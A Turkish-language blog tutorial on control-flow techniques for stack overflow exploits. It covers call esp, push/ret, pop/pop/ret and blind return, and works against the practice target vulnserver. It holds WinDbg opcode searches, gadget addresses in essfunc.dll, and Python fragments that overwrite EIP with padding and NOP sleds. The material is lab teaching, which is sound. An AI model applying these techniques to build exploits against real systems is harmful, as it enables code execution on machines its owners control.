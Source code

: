 ```yaml
---
layout: post
title: Shellcode'a Atlamak
categories: Bilgisayar
---
```


Basite indirgenirse bulduğunuz bir zafiyet için bir exploit yazarken yapmaya çalıştığınız şey shellcodenuzu **EIP** registeri aracılığıyla işlemek. 

Bunu yapmanın farklı yöntemleri var, efendim genellikle browser zafiyetlerinde heap spray, normal * overflow açıklarında `jmp esp, call esp, push return, pop return` etc... kullanarak shellcodu *CPU* tarafından işliyorsunuz. Bundan önceki makalede bir `jmp esp` instructionını **EIP** üzerine yazarak stackde bulunan shellcodea atlamıştık. Bu makalede bunun diğer yöntemlerinden bahsetmeye çalışacağım. Makalede önceki yazıda kullandığımız düzenlenmiş *vulnserver* programını kullanmaya devam edicem, siz dilerseniz başka bir program kullanabilirsiniz.

## call [register] Metodu
Bu metodu herhangi bir register bizim shellcodumuzun başlangıç adresi ile dolu olduğunda kullanabiliyoruz. Önceki makalede exploit ettiğimiz overflow açığının exploiti üzerinde düzenleme yaparak nasıl olduğunu görelim. Öncelikle yapmamız gereken şey diğer yazıda olduğu gibi bir `call [reg]` instructionı bulmak. Bunun için vulnserver programımızı Olly'de açıyoruz. Ardından **ALT + E** kısayolu ile çalıştırılabilir moduller içerisinden programın kullandığı *essfunc.dll*'ye çift tıklayıp içerisinde girdikten sonra **CTRL + F** ile `call esp` araması yapıyoruz.

![](/files/callesp.png)

Gördüğünüz üzere `0x62501203` adresinde call esp instructionu mevcut. Resimde ayrıca bu işlemi hızlıca yapmanın bir yolu olan **findjmp** isimli uygulamanın çıktısını da görüyorsunuz. Bu adresi alıp önceki makalede bulunan exploitde gerekli yere yazıyoruz. Şu şekilde oluyor son hali:

    skip---
    mesaj += "A" * 2006
    mesaj += struct.pack('<I', 0x62501203) # essfunc.dll call esp (EIP)
    mesaj += "\x90" * 20
    skip---

Exploiti çalıştırdıktan sonra *vulnserver* uygulamasının çalıştığı sistemde shellcodumuz çalışacak ve *Gari de Gari* penceresi açılacaktır.

## push return Metodu
Bu metod önceki metodla benzerdir. Örneğin shellcodunuz yine espde olsun fakat bir engelden dolayı `call esp` yahut `jmp esp` yapamıyorsunuz. İşte bu durumda yapmanız gereken şey bir adet `push esp` ve bir adet `ret` instructionı kullanmak. Bunun için yine hafızada bu iki makine komutunu bulup exploitimizi ona göre düzenleyeceğiz. Ben bu defa *windbg* kullacağım daha fazla bilgi vermek için. Programı çalıştırıp windbg ile incelemeye aldıktan sonra *Debug* menüsünden *Break*'i seçerek kontrolu devralıyorum. Ardından `lm` komutuyla yüklenen modülleri listeliyorum.

    0:001> lm
    start    end        module name
    00400000 00407000   image00400000   (deferred)
    62500000 62508000   essfunc    (deferred)  
    629c0000 629c9000   LPK        (deferred)    
    662b0000 66308000   hnetcfg    (deferred)      
    71a50000 71a8f000   mswsock    (deferred)

essfunc.dll `62500000` ile `62508000` arasındaymış. Şimdi bu iki adres arasında arama yaparak `push esp ret` bulacağız. Öncelikle bu iki instructionın makine kodlarını öğrenelim.

    0:001> a
    7c901210 push esp
    push esp
    7c901211 ret
    ret
    7c901212 

    0:001> u 7c901210
    ntdll!DbgBreakPoint+0x2:
    7c901210 54              push    esp
    7c901211 c3              ret

**54** ve **c3** bizim opcode değerlerimiz. Şimdi bu değerleri bizim dll dosyamız içerisinde aratalım.

    0:000> s 62500000 62508000 54 c3
    625011df  54 c3 ff e2 59 5a c3 5d-c3 55 89 e5 ff e4 ff e6  T...YZ.].U......

`625011df` adresi bize gereken adres. Şimdi exploiti yeni adrese göre düzenleyip çalıştıralım.

    skip---
    mesaj += "A" * 2006 
    mesaj += struct.pack('<I', 0x625011df) # essfunc.dll push esp, ret (EIP)
    mesaj += "\x90" * 20
    skip---

Doğrulamak adına kısa bir inceleme yapalım. Windbg üzerinde `625011df` adresine `bp` komutu ile breakpoint koyuyorum. Ardından exploiti çalıştırıp 2-3 step inceliyorum.

![](/files/pushreturnmetodu.png)

Resimde kısa bir analizi görüyorsunuz. push esp ret bulunan adres **EIP** registerına yazılmış, program ordan devam ederken önce `push esp` ile `0xbdfa0c` yığına gönderiliyor, ardından `ret` ile yığından bu değer alınıp oradan devam ediliyor. Buradan sonra `g` ile programı devam ettirirsek exploit çalışacaktır.

## pop return Metodu
Eğer yığında shellcodea gidecek başka bir instruction varsa o zaman bu metot kullanılır. Bu gibi durumlarda yığının durumu şuna benzer bir şekilde oluyor:

    [AAAAAAAAAAA...AA][0x625011eb][NOOOOOOOOOPLAR[0x625011af][Shellcode]
       JUNK        EIP(pop ret)    8 byte NOP       jmp esp    Shellcode
         
`pop pop ret` **SEH** exploit ederken de karşımıza çıkacak fakat buradaki durum onla alakalı değil. Buradaki mantık şu:

    0:001> dd esp
    00bdfa0c  90909090 90909090 625011af 90909090
    00bdfa1c  90909090 90909090 90909090 90909090
    00bdfa2c  6fe79aba d9c2db9a 5ef42474 44b1c931
    00bdfa3c  31fcee83 56031056 b6127810 3d04e771

Burada stack durumunu görüyorsunuz. `625011af` ESP'ye **jmp** yapan bir instructionı gösteriyor. Fakat bunun çağırılması için öncelikle ondan öncekilerin ortadan kalkması lazım. Bunları stackten yok etmek için iki adet **pop** yeterli olacak bizim için, ardından bir **ret** kullanarak stackteki adresi alıp oradan yürütmeye devam edeceğiz programı.

    0:001> a
    00bdfa18 pop eax
    pop eax
    00bdfa19 pop ebx
    pop ebx
    00bdfa1a ret
    ret
    00bdfa1b 

    0:001> u 00bdfa18
    00bdfa18 58              pop     eax
    00bdfa19 5b              pop     ebx
    00bdfa1a c3              ret

Önce makine kodunu öğrendik, şimdi hafızada aratalım.

    0:001> s 62500000 62508000 58 5b c3
    625011eb  58 5b c3 e6 59 58 c3 5d-c3 55 89 e5 ff e4 ff e5  X[..YX.].U......

Aradığımız `625011eb` adresindeymiş. Şimdi gerekli düzenlemeleri yapalım. Exploitin son hali şu şekilde:

    skip---
    mesaj += struct.pack('<I', 0x625011eb) # pop pop ret (EIP)
    mesaj += "\x90" * 8 # Arada kalan 8 bytelık NOP
    mesaj += struct.pack('<I', 0x625011AF)  # jmp esp
    skip---

## Blind Return (Kör Dönüş) Metodu
Bu yöntemi uygulamak için yapmamız gereken öncelikle EIP'i 'ret' komutunu gösteren bir adres ile yazmak, ardından shellcodemuzun adresini elle belirleyip stackin ilk 4 byteına yazmak. Bunları gerçekleştirince EIP yazdığımız adrese geldiği zaman, yani ret çalıştığı zaman stackten el ile belirleyip yazdığımız shellcodenun adresini alarak programın akışını oradan devam ettirecek böylece shellcode çalışmış olacak.

Bu metod örneğin EIP'i bir yazmaca gidecek şekilde ayarlayamadığınızda, yani, jmp veya call instructionlarını kullanamadığınızda fakat stackte kontrolunuz olduğu durumlarda kullanabilirsiniz. Çok sık rastlanılmasa da karşı karşıya kalınabilecek durumlardan biri de bu. Tabi bu yöntemi uygularken de nullbyte kullanmamaya dikkat etmeniz gerekiyor. Aksi halde bulduğunuz ret adresi nullbyte içerdiği zaman, bu sonlandırıcı olarak algılanacağı için stacke istediğiniz gibi yazma yapamayacaksınız. Basitçe bu yöntemi kullanırkenki stack görüntünüz şöyle bir şey oluyor.

                            ret stackteki ilk 4 byteı
                            alıp, oradan devam edecek
                           -------------------------       ------------
                           |                       |       |          |
	[AAAAAAAAAAA...AA][bulduğunuz ret adresi]    [0xXXXXXXXX]     [Shellcode]
	       JUNK                                ESP(Shellcode adresi)

Sevgiler..
